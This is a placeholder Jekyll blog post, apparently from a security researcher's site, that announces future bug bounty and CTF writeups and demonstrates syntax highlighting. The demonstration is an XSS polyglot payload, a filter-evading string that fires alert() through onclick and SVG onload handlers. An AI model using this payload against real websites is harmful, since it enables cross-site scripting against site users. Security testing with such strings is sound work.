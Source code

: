 ```yaml
---
layout: post
---
```

Here is an example blog post. This webpage is soon to be populated with writeups from bug bounties and CTF competitions. Putting this post as placeholder text in the meantime.

Here is an XSS polyglot with syntax highlighting
{% highlight html %}
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
{% endhighlight %}

![Hacking cat!](https://files.catbox.moe/k1lawk.gif "Cat hacking the planet...")